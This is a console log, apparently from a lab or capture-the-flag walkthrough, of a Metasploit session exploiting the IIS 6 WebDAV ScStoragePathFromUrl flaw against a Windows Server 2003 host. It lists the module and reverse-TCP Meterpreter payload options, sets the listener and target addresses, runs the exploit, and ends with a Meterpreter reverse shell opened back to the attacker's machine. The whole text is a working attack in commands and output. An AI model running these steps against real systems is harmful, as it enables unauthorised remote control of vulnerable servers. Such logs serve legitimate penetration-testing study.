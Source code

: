 ```console
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute forc
                                             e
   Proxies                         no        A proxy chain of format type:host
                                             :port[,type:host:port][...]
   RHOSTS                          yes       The target host(s), see https://g
                                             ithub.com/rapid7/metasploit-frame
                                             work/wiki/Using-Metasploit
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing co
                                             nnections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     198.211.116.24   yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lhost 10.10.14.93
lhost => 10.10.14.93
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhosts 10.129.162.7
rhosts => 10.129.162.7
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.129.162.7
[*] Meterpreter session 1 opened (10.10.14.93:4444 -> 10.129.162.7:1034 ) at 2022-08-16 18:37:45 +0100

meterpreter >
```

